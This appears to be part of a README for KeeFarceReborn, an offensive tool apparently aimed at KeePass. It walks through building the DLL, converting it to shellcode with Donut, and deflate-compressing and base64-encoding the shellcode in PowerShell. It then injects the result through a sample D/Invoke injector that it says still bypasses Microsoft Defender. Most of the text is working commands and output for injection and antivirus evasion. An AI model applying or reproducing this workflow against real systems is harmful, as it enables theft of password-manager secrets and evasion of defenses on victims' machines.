 We can easily build from Visual Studio's *x64 Native Tools Command Prompt* with *nmake* utility:

```
nmake -f Makefile.msvc
```

Generating the shellcode is as simple as:

```powershell
.\donut.exe "C:\KeeFarceReborn\KeePassReborn\bin\Release\KeeFarceReborn.dll" -c KeeFarceReborn.Program -m Main -e 1

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "C:\KeeFarceReborn\KeePassReborn\bin\Release\KeeFarceReborn.dll"
  [ Entropy       : None
  [ File type     : .NET DLL
  [ Class         : KeeFarceReborn.Program
  [ Method        : Main
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "loader.bin"
```

> Note that `-e 1` is necessary to disable entropy, otherwise the injected process won't be in the default application domain.

Let's compress it using PowerShell for easier integration in the injector's code:

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\donut\loader.bin")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$deflateStream = New-Object System.IO.Compression.DeflateStream($outStream, [System.IO.Compression.CompressionLevel]::Optimal)
$deflateStream.Write($bytes, 0, $bytes.Length)
$deflateStream.Dispose()
$outBytes = $outStream.ToArray()
$outStream.Dispose()
$b64 = [System.Convert]::ToBase64String($outBytes)
Write-Output $b64 | clip
```

You now have a payload ready to be injected with your favourite technique. If you don't know what to do now, I suggest you check [ired.team Code & Process Injection page](https://www.ired.team/offensive-security/code-injection-process-injection) to get familiar with the concept. [@SEKTOR7](https://institute.sektor7.net/)'s malware development courses are full of great learnings if you can afford them. 

As an example, let's inject our payload using [snovvcrash](https://twitter.com/snovvcrash)'s VeraCryptThief code (itself inspired by  SEKTOR7 courses) which makes use of D/Invoke. To demonstrate, I copied his project in the [SampleInjector](https://github.com/d3lb3/KeeFarceReborn/tree/main/SampleInjector) folder, we only need to paste our compressed shellcode then compile in x64.

> While it still bypasses Defender at the moment (november 2022), tinkering your own injector will of course be needed in order to bypass modern EDRs. This sample injector is just here to demonstrate that everything behaves as expected.
